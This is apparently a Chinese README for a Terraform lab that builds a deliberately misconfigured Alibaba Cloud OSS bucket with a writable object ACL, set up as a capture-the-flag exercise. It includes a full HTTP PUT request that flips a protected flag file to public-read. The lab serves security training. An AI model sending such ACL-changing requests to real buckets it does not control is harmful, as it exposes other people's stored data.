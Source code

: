 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本。
虽然你在实际环境中可能不会遇到，但是玩的愉快

## Git clone

```bash
cd /TerraformGoat/aliyun/oss/object_acl_writable/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

在确认没有问题后，输入yes回车即可快速构建

![image-20220425190632275](../../../images/image-20220425190632275.png)

直接访问该存储桶的/flag.txt

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

但是我们可以通过*?acl*来查看这个对象的ACL权限

![image-20220425190747906](../../../images/image-20220425190747906.png)

随后可以通过PUT方法，将对象的ACL修改为public-read即可，我们需要在请求头添加*x-oss-object-acl*参数

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

成功修改了对象的ACL，现在使用GET方法来获取

![image-20220425191033750](../../../images/image-20220425191033750.png)

## 销毁挑战

```bash
terraform destroy
```

随后输入yes，等待销毁即可

![image-20220425191136549](../../../images/image-20220425191136549.png)
